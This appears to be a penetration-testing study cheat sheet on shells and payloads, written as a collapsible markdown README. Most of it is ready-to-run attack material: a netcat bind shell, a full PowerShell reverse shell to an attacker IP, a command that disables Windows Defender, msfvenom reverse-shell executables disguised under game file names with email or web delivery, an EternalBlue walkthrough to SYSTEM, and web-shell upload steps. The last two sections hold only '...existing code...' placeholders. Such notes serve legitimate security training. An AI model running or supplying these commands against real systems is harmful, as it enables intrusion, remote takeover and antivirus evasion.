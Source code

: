 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When utilizing ICMP to determine if the host is up, a typical response from a Windows host will either be 32 or 128. A response of or around 128 is the most common response you will see.  

**Attack Machine:** Ping target
```bash
PING <WINDOWS IP> (<WINDOWS IP>): 56 data bytes
64 bytes from <WINDOWS IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <WINDOWS IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <WINDOWS IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <WINDOWS IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <WINDOWS IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <WINDOWS IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** File used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. Injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

**Batch:** Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter.  

**VBS:** Lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

**MSI:** When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

**Powershell:** It is both a shell environment and scripting language. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <WINDOWS IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
use auxiliary/scanner/smb/smb_ms17_010 
show options
set RHOSTS <WINDOWS IP>
run
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
search eternal
use 2
options
```

Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.

**Attack Machine: Validate Our Options**  

```bash
show options
```

This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.

**Attack Machine: Execute Our Attack**  

```bash
exploit

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <WINDOWS IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <WINDOWS IP>:445 - Built a write-what-where primitive...
# [+] <WINDOWS IP>:445 - Overwrite complete... SYSTEM session obtained!
```

Now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

**Attack Machine: Verify Our Session**  

```bash
getuid

# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell

# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
search rconfig
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
options
set RHOSTS <TARGET IP>
set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

There may be times that we land on a system with a limited shell, and Python is not installed. In these cases, it's good to know that we could use several different methods to spawn an interactive shell. 

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

If the programming language Ruby is present on the system, this command will execute the shell interpreter specified:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. 

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell is a browser-based shell session we can use to interact with the underlying operating system of a web server. To achieve persistence on a system, in many cases, this is the initial way of gaining remote code execution via a web application, which we can then use to later upgrade to a more interactive reverse shell.

During our external penetration tests, we most commonly "get in" (gain a foothold inside the internal network) via web application attacks (file upload attacks, SQL injection, RFI/LFI, command injection, etc.), password spraying (against RDS, VPN portals, Citrix, OWA, and other applications using Active Directory authentication), and social engineering.

Web applications are often the majority of what we see exposed during an external network assessment and often present an enormous attack surface. We may find publicly available file upload forms that let us directly upload a PHP, JSP, or ASP.NET web shell.

<details>
<summary><h2>Laudanum</h2></summary>  

<details>
<summary><h3>Installation</h3></summary>  

Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use.

**Clone the repository**
```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum files can be found in the /usr/share/laudanum directory. For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

...existing code...
</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

...existing code...
</details>

</details>